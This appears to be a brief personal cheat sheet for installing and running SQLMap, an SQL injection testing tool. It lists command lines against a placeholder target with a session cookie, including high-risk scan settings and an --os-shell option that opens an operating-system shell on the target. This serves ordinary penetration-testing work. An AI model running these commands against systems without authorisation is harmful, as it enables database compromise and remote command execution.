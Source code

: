 ## SQLMap

**Install:**
* `git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev`
* Update `~/.bash_aliases` with the following entry: `alias sqlmap="python3 /home/azureuser/src/sqlmap-dev/sqlmap.py"`

**Usage:**s
* `sqlmap -u '${T}/path?search=the+query' --cookie="PHPSESSID=${cookie}"` - cookie is needed for authentication
* `sqlmap -r ${req_file} --risk=3 --level=3 --batch --force-ssl` 
* To grab a shell: `sqlmap -u '${T}/path?search=the+query' --cookie="PHPSESSID=${cookie}" --os-shell`
